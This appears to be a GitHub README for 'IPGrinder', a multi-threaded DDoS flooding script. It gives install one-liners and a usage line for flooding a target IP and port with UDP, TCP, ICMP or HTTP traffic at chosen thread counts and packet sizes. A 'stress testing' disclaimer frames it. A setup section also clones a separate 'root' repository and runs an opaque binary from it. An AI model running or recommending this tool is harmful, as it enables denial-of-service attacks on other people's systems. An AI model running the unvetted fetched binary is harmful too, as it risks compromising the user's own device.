 # IPGrinder

**IPGrinder** is a multi-threaded DDoS script intended for **stress testing infrastructure**.

> ⚠️ This tool is meant for **educational and ethical testing purposes only**. Do **not** use it on networks or systems without explicit authorization.

---

## 🔧 Setup for Fakeroot (Termux) - EXPERIMENTAL ONLY, MIGHT NOT WORK

### Manual Steps

```bash
apt-get update && apt-get upgrade -y
apt-get install git -y
git clone https://github.com/adarshaddee/root.git
cd root
chmod +x main
./main
```

### One-liner

```bash
pkg --check-mirror update && apt-get update && apt-get upgrade -y && apt-get install git -y && git clone https://github.com/adarshaddee/root.git && cd root && chmod +x main && ./main
```

---

## ⚙️ Setup for IPGrinder

### Manual Steps

```bash
pkg update && pkg upgrade -y
pkg install git python -y
git clone https://github.com/NeoMatrix14241/IPGrinder.git
cd IPGrinder
python -m pip install --upgrade pip
python -m pip install requests
python ipgrinder.py
```

### One-liner

```bash
pkg --check-mirror update && pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/NeoMatrix14241/IPGrinder.git && cd IPGrinder && python -m pip install requests && python ipgrinder.py
```

---

## 🚀 Usage

```bash
python ipgrinder.py <IP> <PORT> [PROTOCOLS] [THREADS_PER_PROTO] [PACKET_SIZE]
```

### Parameters

- `<IP>` – Target IP address
- `<PORT>` – Target port
- `[PROTOCOLS]` – Comma-separated list of protocols (udp, tcp, icmp, http, all)
- `[THREADS_PER_PROTO]` – Number of threads per selected protocol
- `[PACKET_SIZE]` – Size of each packet in bytes

### Example

```bash
python ipgrinder.py 192.168.1.1 80 tcp,udp 100 1024
```

---

**Disclaimer:** The creator is **not responsible** for any misuse or damage caused by this tool.
